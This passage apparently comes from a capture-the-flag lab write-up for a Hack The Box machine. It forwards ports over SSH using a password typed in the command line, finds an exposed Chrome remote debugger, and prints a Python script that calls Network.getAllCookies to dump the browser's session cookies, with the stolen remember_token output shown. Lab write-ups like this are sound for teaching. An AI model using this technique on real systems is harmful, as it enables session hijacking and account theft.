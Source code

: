 Lets, one more time, redirect local ports to the target. This time we can do for the test website on port 5555 and the chrome debugger on 41829.

```bash
sshpass -p '5db7caa1d13cc37c9fc2' ssh -L 5555:127.0.0.1:5555 -L 41829:127.0.0.1:41829 corum@$TARGET
```

We can now access the debugger locally now.

```bash
$ curl -s localhost:41829/json
[ {
   "description": "",
   "devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:41829/devtools/page/25239804303EF8BD341CE3E154870CB5",
   "id": "25239804303EF8BD341CE3E154870CB5",
   "title": "SuperPassword 🦸",
   "type": "page",
   "url": "http://test.superpass.htb/",
   "webSocketDebuggerUrl": "ws://localhost:41829/devtools/page/25239804303EF8BD341CE3E154870CB5"
} ]
```

Now we have 2 options. We can run a script to connect to the debugger on the WebSocket and request all the cookies, or we can set our Chromium to inspect that port and investigate over there. Lets try both.

The following script will do the trick to us. Idea from [GitHub - cookie_crimes](https://github.com/defaultnamehere/cookie_crimes).

```python
import json
import requests
import websocket

debug_json_url = "http://localhost:41829/json"

response = requests.get(debug_json_url)
websocket_url = response.json()[0].get("webSocketDebuggerUrl")

GET_ALL_COOKIES_REQUEST = json.dumps({"id": 1, "method": "Network.getAllCookies"})
ws = websocket.create_connection(websocket_url)
ws.send(GET_ALL_COOKIES_REQUEST)
result = ws.recv()
ws.close()

# Parse out the actual cookie object from the debugging protocol object.
response = json.loads(result)
cookies = response["result"]["cookies"]

print(json.dumps(cookies,indent=4, separators=(',', ': '), sort_keys=True))
```

```bash
$ python3 ws_get_cookies.py
[
    {
        "domain": "test.superpass.htb",
        "expires": 1750821783.888018,
        "httpOnly": true,
        "name": "remember_token",
        "path": "/",
        "priority": "Medium",
        "sameParty": false,
        "secure": false,
        "session": false,
        "size": 144,
        "sourcePort": 80,
```
